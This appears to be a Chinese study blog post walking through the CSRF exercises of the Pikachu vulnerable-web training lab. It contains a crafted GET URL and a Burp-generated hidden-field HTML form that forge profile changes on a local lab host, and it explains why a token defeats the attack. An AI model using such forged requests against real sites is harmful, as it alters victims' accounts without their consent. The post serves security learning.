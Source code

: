 ```yaml
---
title: Pikachu--CSRF
tags:
  - pikachu
categories:
  - 学习
  - web安全
  - Pikachu
abbrlink: 546fe1af
date: 2022-04-13 21:20:21
---
```


# Pikachu——CSRF

## 简介

**跨站请求伪造**（英语：Cross-site request forgery），也被称为 **one-click attack** 或者 **session riding**，通常缩写为 **CSRF** 或者 **XSRF**， 是一种挟制用户在当前已登录的Web应用程序执行非本意的操作的攻击方法。跟跨网站脚本（XSS）相比，**XSS** 利用的是用户对指定网站的信任，CSRF 利用的是网站]对用户网页浏览器的信任。

来自:[百度百科 ](https://baike.baidu.com/item/跨站请求伪造/13777878?fromtitle=CSRF&fromid=2735433&fr=aladdin)

## CSRF与XSS区别

CSRF是借助用户的权限完成攻击，攻击者并没有拿到用户的权限。目标构造修改个人信息的链接，利用lucy在登录状态下点击此链接达到修改信息的目的。
XSS直接盗取了用户的权限，然后实施破坏。攻击者利用XSS盗取了目标的Cookie，登录lucy的后台，再修改相关信息。



## 一、CSRF(get)

登陆后点击修改信息

![1](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132004817.png)

然后浏览器上代理，用burpsuite抓包

![2](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132004869.png)

上面是get请求的内容，我们把phonenum的值修改为123456，然后forword，发现账号kobe的信息发生了变化，结果如下图：

![3](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132004468.png)



![4](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132004134.png)_修改成功_



也可以直接构造一个url:

``` http://192.168.224.135/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=hack&phonenum=hack&add=123456&email=kobe%40pikachu.com&submit=submit``` 



![5](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132004797.png)_修改成功_



## 二、CSRF（POST）

也是先登录，这是必要的，然后抓取提交修改的流量，是POST方式。

![6](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132004132.png)

直接在包中修改信息

![7](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005813.png)

![8](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005429.png)



也可以自己建一个表单，让被攻击者点恶意站点表单的URL。通过表单的URL去向存在CSRF漏洞的页面去提交POST请求。

表单代码:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://192.168.224.135/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="61" />
      <input type="hidden" name="phonenum" value="132" />
      <input type="hidden" name="add" value="852741" />
      <input type="hidden" name="email" value="kobe&#64;pikachu&#46;com" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

![9](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005169.png)

![10](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005882.png)

## 三、CSRF（token）

同样的过程，get方式修改信息，但是还带了一个token参数。

![11](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005304.png)

由于这个token是随机不可预测的并且是隐藏看不见的，并且每次刷新，后台发送过来的token都不一样，起到了防止伪造的作用.对于token，暂时还没有什么办法通过



## FAQ

提示:使用未定义的常量 MYSQL_ASSOC. 如图所示: 

![12](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005922.png)

解决办法:

切换PHP版本\刷新网页

![13](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/202204132005830.png)
